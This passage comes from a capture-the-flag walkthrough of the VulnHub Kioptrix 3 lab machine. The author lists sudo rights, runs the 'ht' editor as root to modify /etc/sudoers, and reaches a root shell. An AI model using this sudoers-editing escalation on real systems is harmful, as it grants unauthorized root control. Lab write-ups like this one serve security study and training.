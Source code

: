 Nice. Now let's see if we can run `ht` (mentioned in the CompanyPolicy.README file we found earlier) as sudo by checking via `sudo -l`:

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

Perfect, let's make sure our terminal is set correctly:
```bash
loneferret@Kioptrix3:~$ export TERM=xterm
```

Now we can use the `ht` text editor as root! The method I used to privesc is to edit the `/etc/sudoers` file and give us further permission. In this case I'll simply give us full rights to `/bin/su`.

![Editing `/etc/sudoers/`](/assets/images/VulnHub/Kioptrix1.2_11.PNG)

And now we can simply switch users to root:

```bash
loneferret@Kioptrix3:~$ sudo su
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
```
